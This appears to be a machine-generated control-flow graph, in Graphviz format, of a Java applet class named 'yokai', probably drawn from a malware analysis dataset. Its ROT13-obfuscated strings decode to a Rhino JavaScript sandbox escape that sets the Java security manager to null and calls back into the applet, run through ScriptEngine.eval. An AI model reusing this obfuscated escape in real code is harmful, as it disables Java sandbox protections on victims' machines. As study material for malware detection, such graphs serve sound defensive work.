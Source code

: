 digraph "" {
    "r0 := @this: yokai"
    "load.r r0"
    "r0 := @this: yokai"->"load.r r0";
    "new javax.swing.JList"
    "load.r r0"->"new javax.swing.JList";
    "dup1.r"
    "new javax.swing.JList"->"dup1.r";
    "push 1"
    "dup1.r"->"push 1";
    "newarray"
    "push 1"->"newarray";
    "newarray"->"dup1.r";
    "push 0"
    "dup1.r"->"push 0";
    "new javax.script.ScriptEngineManager"
    "push 0"->"new javax.script.ScriptEngineManager";
    "new javax.script.ScriptEngineManager"->"dup1.r";
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"
    "dup1.r"->"specialinvoke <javax.script.ScriptEngineManager: void <init>()>";
    "push \"wf\""
    "specialinvoke <javax.script.ScriptEngineManager: void <init>()>"->"push \"wf\"";
    "staticinvoke <yokai: java.lang.String convert(java.lang.String)>"
    "push \"wf\""->"staticinvoke <yokai: java.lang.String convert(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"
    "staticinvoke <yokai: java.lang.String convert(java.lang.String)>"->"virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>";
    "virtualinvoke <javax.script.ScriptEngineManager: javax.script.ScriptEngine getEngineByName(java.lang.String)>"->"dup1.r";
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"
    "dup1.r"->"interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0";
    "store.r r1"
    "interfaceinvoke <javax.script.ScriptEngine: javax.script.Bindings createBindings()> 0"->"store.r r1";
    "load.r r1"
    "store.r r1"->"load.r r1";
    "push \"nccyrg\""
    "load.r r1"->"push \"nccyrg\"";
    "push \"nccyrg\""->"staticinvoke <yokai: java.lang.String convert(java.lang.String)>";
    "staticinvoke <yokai: java.lang.String convert(java.lang.String)>"->"load.r r0";
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"
    "load.r r0"->"interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2";
    "pop"
    "interfaceinvoke <javax.script.Bindings: java.lang.Object put(java.lang.String,java.lang.Object)> 2"->"pop";
    "push \"guvf.gbFgevat = shapgvba() { wnin.ynat.Flfgrz.frgFrphevglZnantre(ahyy); nccyrg.pnyyOnpx();\terghea \'frkbpbzevabprebagrf\'; };p = arj Reebe(); p.zrffntr = guvf; p\""
    "pop"->"push \"guvf.gbFgevat = shapgvba() { wnin.ynat.Flfgrz.frgFrphevglZnantre(ahyy); nccyrg.pnyyOnpx();\terghea \'frkbpbzevabprebagrf\'; };p = arj Reebe(); p.zrffntr = guvf; p\"";
    "push \"guvf.gbFgevat = shapgvba() { wnin.ynat.Flfgrz.frgFrphevglZnantre(ahyy); nccyrg.pnyyOnpx();\terghea \'frkbpbzevabprebagrf\'; };p = arj Reebe(); p.zrffntr = guvf; p\""->"staticinvoke <yokai: java.lang.String convert(java.lang.String)>";
    "staticinvoke <yokai: java.lang.String convert(java.lang.String)>"->"load.r r1";
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"
    "load.r r1"->"interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2";
    "arraywrite.r"
    "interfaceinvoke <javax.script.ScriptEngine: java.lang.Object eval(java.lang.String,javax.script.Bindings)> 2"->"arraywrite.r";
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"
    "arraywrite.r"->"specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>";
    "virtualinvoke <yokai: java.awt.Component add(java.awt.Component)>"
    "specialinvoke <javax.swing.JList: void <init>(java.lang.Object[])>"->"virtualinvoke <yokai: java.awt.Component add(java.awt.Component)>";
    "virtualinvoke <yokai: java.awt.Component add(java.awt.Component)>"->"pop";
    "goto return"
    "pop"->"goto return";
    "return"
    "goto return"->"return";
    "virtualinvoke <javax.script.ScriptException: void printStackTrace()>"
    "virtualinvoke <yokai: java.awt.Component add(java.awt.Component)>"->"virtualinvoke <javax.script.ScriptException: void printStackTrace()>";
}
